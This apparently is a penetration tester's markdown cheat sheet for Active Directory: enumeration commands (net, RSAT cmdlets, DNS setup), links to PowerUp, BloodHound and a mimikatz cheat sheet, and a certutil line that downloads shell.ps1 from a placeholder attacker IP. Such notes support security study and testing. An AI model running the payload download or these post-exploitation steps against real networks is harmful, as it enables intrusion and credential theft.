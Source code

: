 # Active Directory


RDP to connect to jumphost: `xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:$RHOST`


## Enumeration

### Initial setup

Set network connection credentials to given user on Windows with:
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```
Commands used for configuring DNS to the domain controller manually in PS:
```
$dnsip = "${DC_IP}"
$index = Get-NetAdapter -Name '${Network_Interface}' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```
`${Network_Interface}` is interface of the network


verify by using nslookup afterwards.


### Enum in CMD

use net to enumerate eg. users, groups and so on:
```
net user ${user} /domain
```

or the password policy for the domain: `net accounts /domain`


Has to be done from a domain-joined machine though, and it does not necessarily show the full output.


Enumerating SMB shares from the DC can be done with:

```
net view \\dc01 /all
```

### Enum in Powershell

AD-RSAT tooling gives us a lot of options.
Install it by running:

```
Install-WindowsFeature -Name "RSAT-AD-PowerShell" -IncludeAllSubFeature
```

from an admin powershell.

Similar to the `net` tool, powershell has cmdlets like `GetADUser`, `Get-ADGroup` or more generically, `GetAD-Object` 
A good flag to use is `-Properties` with these, which takes a comma-separated list, or wildcards `*`


### Enum and much else: PowerSploit

[PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

### Bloodhound

[Bloodhound](https://github.com/BloodHoundAD/BloodHound) with Sharphound can also be used for a graph overview of the domain.
It has the drawback of being quite noisy though.

## Post Exploit

[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)


## CMD commands to remember

CMD equivalent of wget
```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1
```

grep equivalent for cmd: `findstr`

remove a file with force: `del /f`

